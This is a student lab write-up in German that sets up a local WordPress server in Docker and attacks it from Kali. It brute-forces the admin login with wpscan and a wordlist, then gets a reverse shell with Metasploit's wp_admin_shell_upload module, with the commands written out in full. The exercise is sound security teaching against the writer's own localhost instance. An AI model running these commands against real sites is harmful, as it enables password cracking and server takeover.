






# BS 3.5 

## Angabe: 
Wordpress ist das weltweit am meisten verwendete CMS. Verwende das Metasploit-Framework, um in einen Webserver mit installiertem Wordpress einzudringen. Im ersten Schritt setzt du entweder unter Kali oder in einer eigenen VM mit docker-compose einen Wordpress-Server auf. Im zweiten Schritt führst du mit Metasploit einen Scan durch. Im dritten Schritt führst du eine Password-Attacke auf Wordpress mit wpscan durch. Im letzten Schritt bekommst du Zugang zum Server mithilfe einer "Reverse Shell". Mit Meterpreter kannst du jede Menge an Infos vom attackierten System herausfinden. 

In den Labornotizen findet man zum Schluss eine Schritt für Schritt Anleitung der Attacke.
- Metasploit 2nd Edition, The Penetration Tester’s Guide, no starch press, 2025
- Metasploit Penetration Testing Cookbook, Third Edition, Packt, 2018
- https://docs.docker.com/compose/wordpress/
- https://jonathansblog.co.uk/metasploit-tutorial-for-beginners
- https://www.offensive-security.com/metasploit-unleashed/
- https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/
- https://www.hackingarticles.in/wordpress-reverse-shell/


---

## 1. Kali Linux Konfiguration:

### 1.1 Docker installieren/aufsetzen: 

Prerequisites installieren: 
```
sudo apt update
sudo apt install -y docker.io
sudo apt install docker-compose
sudo systemctl enable docker --now
mkdir ~/wp-docker 
```

Nachdem man Docker installiert hat muss man nun die **compose-docker.yml** anlegen und mit Inhalt zur Installation von Wordpress und MYSQL.

**compose-docker.yml:**
```
services:
  db:
    # MariaDB image supporting amd64 & arm64
    image: mariadb:10.6.4-focal
    command: '--default-authentication-plugin=mysql_native_password'
    volumes:
      - db_data:/var/lib/mysql
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: cisco123
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wp_user
      MYSQL_PASSWORD: cisco123
    expose:
      - "3306"
      - "33060"

  wordpress:
    image: wordpress:latest
    depends_on:
      - db
    ports:
      - "8080:80"       
    restart: always
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wp_user
      WORDPRESS_DB_PASSWORD: cisco123
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wp_data:/var/www/html

volumes:
  db_data:
  wp_data:

```

Nach dem Anlegen der Datei muss man in das Verzeichnis navigieren und von dort aus dem command: 

```
cd ~/wp-docker/
sudo docker compose up -d
```
Wenn der Command ausgeführt wurde dauert es ein wenig bis der Server verfügbar ist. 



### 1.2 Wordpress einstellen

Nachdem das Aufsetzen von Docker erledigt ist und der Prozess von Wordpress am laufen ist. (kann mit `sudo docker ps` nachgeschaut werden)


Wenn der Prozess am laufen ist kann man nun im Webbrowser, unter http://localhost:8080 den Wordpress Server erreichen. Beim erstmaligen Öffnen der Seite muss man die grundlegende Konfiguration der Seite machen. Ich habe als user *wp_user* und als passwort *cisco123* angegeben.



Nachdem der Dialog abgeschlossen ist, ist die Website fertig zum verwenden/angreifen. 


## 2. Angriff mit Kali

### 2.1 WPscan 
- https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/

WPscan is a command-line tool which is used as a black box vulnerability scanner. It is commonly used by security professionals and bloggers to test the security of their website. WPscan comes pre-installed on the most security-based Linux distributions and it is also available as a plug-in.

```
gunzip /usr/share/wordlists/rockyou.txt.gz 
wpscan --url http://127.0.0.1:8080 -P /usr/share/wordlists/rockyou.txt
```

Nachdem der **wpscan** command ausgeführt wurde, fangt der Angriff an. Als Erstes wird nach der Version von Wordpress gesucht, danach nach dem Adminkonto und dann mithilfe des rockyou files eine Bruteforce Attacke durchgeführt. (Ich habe die rockyou.txt verändert, da cisco123 erst in Zeile 140000 erscheint, habe ich es auf Stelle 350 veschoben)



Jetzt haben wir das Credentials für den Adminaccount: **wp_user:cisco123**

### 2.2 Mit msf Wordpress scanen

(Braucht man nicht machen, wenn man den scan von vorher gemacht hat)
Da wir jetzt den Scan/Bruteforce attacke auf den Server ausgeführt haben, haben wir ja die Credentials des Kontos bekommen. Jetzt kann man mit metasploit einen exploit starten: 

```
use auxiliary/scanner/http/wordpress_login_enum
set rhosts 127.0.0.1
set rport 8080
set username wp_user
set password cisco123
exploit
```




### 2.3 Mit einer Reverse Shell den Server exploiten

- https://www.hackingarticles.in/wordpress-reverse-shell/

Um die Reverse Shell ausführen zu können braucht man die Credentials eines Admin Kontos! 

```
use exploit/unix/webapp/wp_admin_shell_upload
set USERNAME wp_user
set PASSWORD cisco123
set rhosts 127.0.0.1 
set rport 8080
exploit
```




